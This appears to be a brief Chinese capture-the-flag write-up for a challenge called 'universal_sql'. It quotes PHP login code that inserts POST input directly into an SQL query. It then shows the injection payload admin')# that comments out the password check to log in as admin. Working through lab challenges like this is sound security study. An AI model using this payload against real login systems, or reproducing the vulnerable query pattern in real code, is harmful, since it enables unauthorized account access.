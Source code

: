 ## universal_sql

查看源代码，有个`index.txt`，里面是源码：

```php
$username = $_POST[username];
$passwd = md5($_POST[passwd]);
$sql = "select username from users where (username='$username') and (pw='$passwd')";
```

构造`sql`语句，注释掉查询`pw`的部分：

```mysql
select username from users where (username='admin')#') and (pw='$passwd')";
```

用户名是`admin`时显示登录成功：

![burp](./1.png)